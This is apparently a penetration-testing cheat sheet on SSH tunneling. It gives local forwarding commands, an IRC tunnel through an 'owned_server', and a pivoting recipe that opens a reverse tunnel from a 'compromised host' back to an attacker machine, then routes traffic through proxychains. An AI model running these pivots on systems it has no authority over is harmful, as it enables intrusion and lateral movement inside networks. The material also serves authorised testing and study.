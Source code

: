 # SSH tunneling

## SSH tunneling <a href="#ssh-tunneling" id="ssh-tunneling"></a>

```csharp
ssh -l user -p port -N(dont execute remote cmd) -L:8000:127.0.0.1:64297 10.4.4.63(remote_ip)
```

### SSH reverse tunnel (ie for irc)

```csharp
ssh -L localhost_PORT:irc.freenode.net:6667 user@owned_server
ssh -L 9001:127.0.0.1:8082 polo@server
irssi -c localhost -p localhost_PORT
```

### Dynamic port Forwarding

* On compromised host :

```csharp
ssh -f -N -R 2222:127.0.0.1 b3v1l@MYBOX
```

* Then, on attacker machine:

```csharp
ssh -f -N -D 127.0.0.1:1028 -p 2222 user@127.0.0.1
```

* Then configure proxychains.conf

```csharp
root@kali:~/ proxychains ssh 10.1.1.1
ProxyChains-3.1 (
http://proxychains.sf.net
)
|S-chain|-<>-127.0.0.1:1028-<><>-10.1.1.1:22-<><>-OK
```

